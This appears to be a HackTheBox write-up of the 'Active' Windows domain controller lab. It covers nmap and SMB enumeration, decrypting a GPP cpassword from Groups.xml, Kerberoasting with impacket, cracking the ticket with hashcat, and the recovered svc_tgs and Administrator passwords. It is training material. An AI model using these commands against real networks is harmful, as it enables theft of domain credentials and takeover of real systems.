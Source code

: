 ```yaml
---
description: >-
  Active HTB Machine
title: Active (Easy)                # Add title here
date: 2023-02-09 08:00:00 -0600                           # Change the date to match completion date
categories: [HackTheBox, Windows - Easy]                     # Change Templates to Writeup
tags: [hackthebox, smb enumeration, smb full replication, gpp decryption, kerberoasting, hashcat, tgs cracking]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: true                                    # Change this to true
image: /assets/img/icons/Active.png                # Add infocard image here for post preview image
---
```

### Host entries
```bash
10.10.10.100  active.htb
```
If Active Directory => [NTP Synchronization](https://shuciran.github.io/posts/NTP-Synchronization/) with the domain controller.

### Content

- SMB Enumeration
- SMB Full share replication to local machine [[SMB Download]] `smbclient mget*`
- GPP Decryption
- Kerberoasting
- Hashcat TGS crack

### Reconnaissance

Initial reconnaissance for TCP ports
```bash
nmap -p- --open --min-rate 5000 -Pn -n -vvv -oG allPorts 10.10.10.100
# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: 10.10.10.100 ()   Status: Up
Host: 10.10.10.100 ()   Ports: 53/open/tcp//domain///, 88/open/tcp//kerberos-sec///, 135/open/tcp//msrpc///, 139/open/tcp//netbios-ssn///, 389/open/tcp//ldap///, 445/open/tcp//microsoft-ds///, 464/open/tcp//kpasswd5///, 593/open/tcp//http-rpc-epmap///, 636/open/tcp//ldapssl///, 3268/open/tcp//globalcatLDAP///, 3269/open/tcp//globalcatLDAPssl///, 9389/open/tcp//adws///, 47001/open/tcp//winrm///, 49152/open/tcp//unknown///, 49153/open/tcp//unknown///, 49154/open/tcp//unknown///, 49155/open/tcp//unknown///, 49157/open/tcp//unknown///, 49158/open/tcp//unknown///, 49165/open/tcp//unknown///, 49166/open/tcp//unknown///, 49168/open/tcp//unknown///
```
Services and Versions running:
```bash
nmap -p53,88,135,139,389,445,464,593,636,3268,3269,9389,47001,49152,49153,49154,49155,49157,49158,49165,49166,49168 -sCV -Pn -n -vvv -oN targeted 10.10.10.100
Nmap scan report for 10.10.10.100
Host is up, received user-set (0.089s latency).
Scanned at 2023-02-09 00:37:51 EST for 73s

PORT      STATE SERVICE       REASON  VERSION
53/tcp    open  domain        syn-ack Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
| dns-nsid: 
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15D39)
88/tcp    open  kerberos-sec  syn-ack Microsoft Windows Kerberos (server time: 2023-02-09 05:37:58Z)
135/tcp   open  msrpc         syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack
464/tcp   open  kpasswd5?     syn-ack
593/tcp   open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack
3268/tcp  open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack
9389/tcp  open  mc-nmf        syn-ack .NET Message Framing
47001/tcp open  http          syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49152/tcp open  msrpc         syn-ack Microsoft Windows RPC
49153/tcp open  msrpc         syn-ack Microsoft Windows RPC
49154/tcp open  msrpc         syn-ack Microsoft Windows RPC
49155/tcp open  msrpc         syn-ack Microsoft Windows RPC
49157/tcp open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc         syn-ack Microsoft Windows RPC
49165/tcp open  msrpc         syn-ack Microsoft Windows RPC
49166/tcp open  msrpc         syn-ack Microsoft Windows RPC
49168/tcp open  msrpc         syn-ack Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   210: 
|_    Message signing enabled and required
|_clock-skew: 0s
| smb2-time: 
|   date: 2023-02-09T05:38:55
|_  start_date: 2023-02-09T05:22:50
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 38577/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 40109/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 51069/udp): CLEAN (Timeout)
|   Check 4 (port 38631/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
```
Enumerating port 445 we identify that we have Read access to the Replication share:
```bash
crackmapexec smb 10.10.10.100 -u '' -p '' --shares
SMB 10.10.10.100 445 DC [*] Windows 6.1 Build 7601 x64 (name:DC) (domain:active.htb) (signing:True) (SMBv1:False)
SMB 10.10.10.100 445 DC [+] active.htb\: 
SMB 10.10.10.100 445 DC [+] Enumerated shares
SMB 10.10.10.100 445 DC Share   Permissions  Remark
SMB 10.10.10.100 445 DC -----   -----------  ------
SMB 10.10.10.100 445 DC ADMIN$ Remote Admin
SMB 10.10.10.100 445 DC C$  Default share
SMB 10.10.10.100 445 DC IPC$Remote IPC
SMB 10.10.10.100 445 DC NETLOGON  Logon server share 
SMB 10.10.10.100 445 DC Replication  READ 
SMB 10.10.10.100 445 DC SYSVOL Logon server share
SMB 10.10.10.100 445 DC Users
```
We then enumerate the share, it has a lot of information within so we rather prefer to download the whole volume locally[^smb-download]: 
```bash
# First connect to the machine
smbclient //10.10.10.100/Replication -N
# Then turn off the Prompt and turn on the replicate function
smb: \> RECURSE ON
smb: \> PROMPT OFF
# Finally extract all the files
smb: \> mget *
```
We then check what info is within the share:
![Description](/assets/img/Pasted-image-20230209005650.png)
### Exploitation
This structure is very similar to the SYSVOL share so we know that there is a Groups.xml, this file can have a GPP hash that can be decrypted[^sysvol-gpp-decrypt]: 
```bash
cat ./active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups/Groups.xml
<?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}"><User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}"><Properties action="U" newName="" fullName="" description="" cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0" userName="active.htb\SVC_TGS"/></User>
</Groups>
```
And we can decrypt the cpassword with gpp-decrypt utility:
```bash
# Decrypting cpassword
gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ

GPPstillStandingStrong2k18
```

### Privilege Escalation
Now, since we know that there is no port tcp-5985 to login directly open we can keep the enumeration on port tcp-445, the next share interesting is not SYSVOL but Users and this is its structure:
![Description](/assets/img/Pasted-image-20230209010606.png)
After a deep enumeration, we couldn't identify any useful file that could provide a privesc or a lateral movement so we tried another approach which is a [[Kerberoasting (Service Account Attacks)]]. ^659f81
```bash
impacket-GetUserSPNs active.htb/svc_tgs:GPPstillStandingStrong2k18 -request
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

ServicePrincipalName  Name           MemberOf                                                  PasswordLastSet             LastLogon                   Delegation 
--------------------  -------------  --------------------------------------------------------  --------------------------  --------------------------  ----------
active/CIFS:445       Administrator  CN=Group Policy Creator Owners,CN=Users,DC=active,DC=htb  2018-07-18 15:06:40.351723  2023-02-09 00:24:03.458965             



[-] CCache file is not found. Skipping...
$krb5tgs$23$*Administrator$ACTIVE.HTB$active.htb/Administrator*$
...
d03f8fe0c361c57c9c755c7d8a1024dd38c4beaf73a3688eb2c103450979c4e729c0b6d21a44160b71cc6             
```
This means that we can extract a TGS ticket directly from the DC, and we successfully get it, so next thing to do is to crack it with [Hashcat](https://shuciran.github.io/posts/Hashcat/):
```bash
D:\Programas\hashcat-6.2.5>hashcat.exe -m 13100 -a 0 hash.txt rockyou.txt
hashcat (v6.2.5) starting


$krb5tgs$23$*Administrator$ACTIVE.HTB$active.htb/Administrator*$
...
f0cc1679087568696baa79fef670721b$0bd9f0addc75c15876fda2aae6fc4a9611250979c4e729c0b6d21a44160b71cc6:Ticketmaster1968
```
### Credentials
```bash
svc_tgs:GPPstillStandingStrong2k18
Administrator:Ticketmaster1968

```

### Notes

- We can extract a share with SMB directly by abusing of the [[SMB Download]] with SMBClient `mget *` functionality.

### References
[^smb-download]: Download an entire SMB share locally.
[^sysvol-gpp-decrypt]: SYSVOL (Groups.xml) gpp decrypt.


